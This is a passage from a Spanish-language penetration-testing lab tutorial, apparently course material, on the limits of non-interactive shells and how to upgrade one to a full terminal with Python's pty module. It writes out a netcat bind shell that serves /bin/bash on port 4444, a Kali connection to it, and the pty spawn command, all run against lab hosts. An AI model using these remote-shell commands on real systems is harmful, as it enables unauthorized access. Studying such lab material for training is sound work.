```
student@debian:~$ nc -lvnp 4444 -e /bin/bash
listening on [any] 4444 ...
```

Desde nuestro sistema Kali, nos conectaremos al shell de escucha e intentaremos la sesión FTP del Listado 4 nuevamente:

```
kali@kali:~$ nc -vn 10.11.0.128 4444
ftp 10.11.0.4
offsec
lab
bye

^C
kali@kali:~$
```

Detrás de escena, estamos interactuando con el servidor FTP, pero no recibimos ningún comentario en nuestro shell. Esto se debe a que STDOUT de la sesión FTP (un programa interactivo) no se redirige correctamente en un bind/reverse shell. Esto da como resultado la pérdida de control de nuestro shell y nos vemos obligados a salir por completo con Ctrl + C. Esto podría resultar muy problemático durante una evaluación.

<br />

**Upgrading a Non-Interactive Shell**

Ahora que entendemos algunas de las limitaciones de los shells no interactivos, examinemos cómo podemos "actualizar" nuestro shell para que sea mucho más útil. El intérprete de Python, frecuentemente instalado en sistemas Linux, viene con un módulo estándar llamado *pty* que permite la creación de pseudoterminales. Al usar este módulo, podemos generar un proceso separado desde nuestro shell remoto y obtener un shell completamente interactivo. Probemos esto.

Nos volveremos a conectar a nuestro shell Netcat de escucha y generaremos nuestro shell *pty*:

```
kali@kali:~$ nc -vn 10.11.0.128 4444
(UNKNOWN) [10.11.0.128] 4444 (?) open
python -c 'import pty; pty.spawn("/bin/bash")'
student@debian:~$
```

Inmediatamente después de ejecutar nuestro comando de Python, nos recibe un indicador familiar de Bash. Intentemos conectarnos a nuestro servidor FTP local nuevamente, esta vez a través del shell *pty* y veamos cómo se comporta:

```
student@debian:~$ ftp 10.11.0.4
ftp 10.11.0.4
Connected to 10.11.0.4.
220---------- Welcome to Pure-FTPd [privsep] [TLS] ----------
220-You are user number 1 of 50 allowed.
220-Local time is now 09:16. Server port: 21.
220-This is a private system - No anonymous login
220-IPv6 connections are also welcome on this server.
220 You will be disconnected after 15 minutes of inactivity.
Name (10.11.0.4:student): offsec
offsec
331 User offsec OK. Password required
Password:offsec

230 OK. Current directory is /
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> bye
bye
221-Goodbye. You uploaded 0 and downloaded 0 kbytes.
```